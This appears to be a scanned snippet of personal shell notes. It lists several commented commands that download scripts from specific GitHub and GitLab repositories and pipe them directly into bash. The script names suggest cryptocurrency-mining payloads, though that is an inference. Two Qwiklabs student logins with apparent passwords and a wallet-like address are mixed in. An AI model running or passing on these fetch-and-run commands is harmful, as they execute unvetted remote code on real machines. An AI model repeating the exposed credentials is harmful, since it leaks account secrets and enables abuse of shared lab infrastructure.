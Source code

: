 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/scalas.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/mbcmaster.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/veco.sh" | bash
# R9uBfT46Kv9kGa4bbeYRvmoNwYCitp7Hit
